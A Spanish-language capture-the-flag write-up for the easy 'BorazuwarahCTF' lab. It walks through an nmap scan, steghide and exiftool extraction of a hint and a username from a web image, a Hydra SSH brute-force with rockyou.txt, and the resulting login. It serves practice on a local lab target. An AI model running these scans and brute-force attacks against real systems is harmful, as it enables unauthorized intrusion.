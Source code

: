 
**Autor:** BorazuwarahCTF

**Dificultad:** Muy Fácil

**Fecha de creación:** 28/05/2024


DESPLIEGUE

```
bash auto_deploy.sh borazuwarahctf.tar
```


![Img](./images/1.png)




------------------------
PROCEDIMIENTO:

Tenemos la IP: 
```
172.17.0.2
```



---------------------------

RECONOCIMIENTO

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

`-p-` ⮞ aplicar reconocimiento a todos los puertos. 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida.  
`-sV` ⮞ Encuentra la versión del servicio abierto. 
`-sC` ⮞ Usa unos scripts de reconocimiento.
`--min-rate 5000` ⮞ para que el reconocimiento vaya más rápido. 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro) .
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla.  
`-Pn` ⮞ Ignora si esta activa o no la IP.  

`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)  (Este no lo usaré).


![Img](./images/2.png)



Nos vamos a la página web y nos sale :


![Img](./images/3.png)


Nos descargamos la imagen y veremos si tiene algún archivo oculto. Haremos el siguiente comando:

```
steghide extract -sf imagen.jpeg
```

![Img](./images/4.png)


```
cat secreto.txt
```

![Img](./images/5.png)


Nos da una pista. Buscaremos más información dentro de esta imagen como son los metadatos , usaremos `exiftool`, por lo cual usando el comando 

```
exiftool imagen.jpeg
```

![Img](./images/6.png)

Y ahí tenemos un usuario `borazuwarah`

Ahora fuerza bruta. 

```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Img](./images/7.png)

```
ssh borazuwarah@172.17.0.2
```

![Img](./images/8.png)


Y ya estamos adentro. 

